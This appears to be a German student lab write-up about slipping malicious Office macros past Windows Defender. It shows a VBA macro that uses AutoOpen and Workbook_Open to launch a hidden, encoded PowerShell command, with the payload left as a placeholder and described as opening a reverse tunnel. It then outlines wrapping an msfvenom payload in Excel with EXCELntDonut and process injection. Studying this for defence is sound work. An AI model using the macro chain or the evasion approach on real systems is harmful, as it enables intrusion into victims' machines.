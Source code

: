 Dabei hat der Windows defender hier seine Arbeit sehr gut gemacht und das Makro sofort beim Speichern als Schadhaft erkannt.

![firstFail](ue1/pics/firstTryDefender.png)

Anscheinend muss die Payload hier besser codiert werden. Um die Payload besser zu verstehen und etwas tiefer in die Materie einzusteigen wurden der obige Befehl ohne die Encryption erstellt um die Funktionen lesen zu koennen.


    Sub rIriDKgfEv()
      Dim e6anPeao
      e6anPeao = "powershell.exe -nop -w hidden -e <encrypted payload for opening a reverse tunnel to the LHOST"
     Call Shell(e6anPeao, vbHide)
    End Sub
    Sub AutoOpen()
      rIriDKgfEv
    End Sub
    Sub Workbook_Open()
      rIriDKgfEv
    End Sub

Hier faellt sofort auf, dass "Workbook_Open()" nicht in Word implementiert ist. 


### Versuch mit Excel

Der Plan ist mit dem Tool "EXCELentDonut" [^1] eine hidden Payload in Excel zu verpacken. Diese Payload ist eine mit MSFVENOM generierte Payload, welches in dem von EXCELentDonut mitgeliefertem Template eingefuegt wurde.

[^1]: https://github.com/FortyNorthSecurity/EXCELntDonut

Das Template verwendet Process Injection um die Payload auszufuehren. Hierbei konvergiert das Tool lediglich einen C# Code in quasi Excel Makro Format. 


[^3]: https://raw.githubusercontent.com/besimorhino/powercat/
[^2]: https://reboare.github.io/bof/linux-stack-bof-3.html